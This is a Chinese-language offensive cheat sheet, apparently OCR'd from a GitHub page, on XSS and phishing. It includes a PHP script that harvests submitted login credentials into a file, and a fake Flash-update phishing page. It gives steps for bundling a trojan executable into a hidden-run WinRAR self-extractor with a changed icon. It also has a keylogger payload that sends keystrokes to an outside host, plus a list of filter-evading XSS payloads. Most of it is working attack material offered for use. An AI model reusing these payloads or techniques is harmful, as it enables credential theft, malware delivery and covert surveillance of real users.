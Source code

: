 	保存js&css到服务器，登录action改为接受密码的文件action="./pass.php"
```php
    <?php //php
      $user=$_POST['username'];
      $pass=$_POST['password'];
      $file=fopen('pass.txt','a+');
      fwrite($file,$user."|"."pass" . "\n");
      fclose($file);
      echo "<script>window.location.href=\"http://192.168.0.1\"</script>\n";
    ?>
```
	构造payload
	<script>window.location.href="http://192.168.0.1/login.html"</script>
	php –S 0.0.0.0:8080 –t ./
  #### 伪造页面钓鱼
	方法1
	https://github.com/r00tSe7en/Fake-flash.cn
	添加xss平台模块
	window.alert = function(name){
	var iframe = document.createElement("IFRAME");
	iframe.style.display="none";
	iframe.setAttribute("src",'data:text/plain');
	document.documentElement.appendChild(iframe);
	window.frames[0].window.alert(name);
	iframe.parentNode.removeChild(iframe);
	}
	alert("您的FLASH版本过低，尝试升级后访问该页面！");
	window.location.href="http://www.flash.com";
	制作自解压捆绑
	一个马.exe，一个正常exe，全选，winrar添加到压缩文件，选择创建自解压格式压缩文件，高级->自解压选项，设置解压路径，c:\windows\temp\，设置->解压后运行两个exe文件，模式全部隐藏，更新，解压并更新文件，覆盖所有文件。
	ResourceHacker修改文件图标
	方法2
	if(empty($_COOKIE['flash'])){
		    echo '<script>alert("你当前计算机的Flash软件已经很久未更新，将导致无法正常显示界面内容，请下载安装最新版本！");window.location="http://www.flash.cn.xx.com/"</script>';
		    setcookie("flash","true",time()+30*2400);
	}
  #### 键盘记录
  	<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
  #### 更多PAYLOAD
  	http://www.xss-payloads.com/payloads-list.html?a#category=all
  #### 更多XSS盲打工具
  	https://github.com/s0md3v/XSStrike
	https://github.com/epsylon/xsser
	https://github.com/hahwul/dalfox
	https://github.com/hahwul/XSpear
	https://github.com/fcavallarin/domdig
  #### 常见payload
```javascript
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
```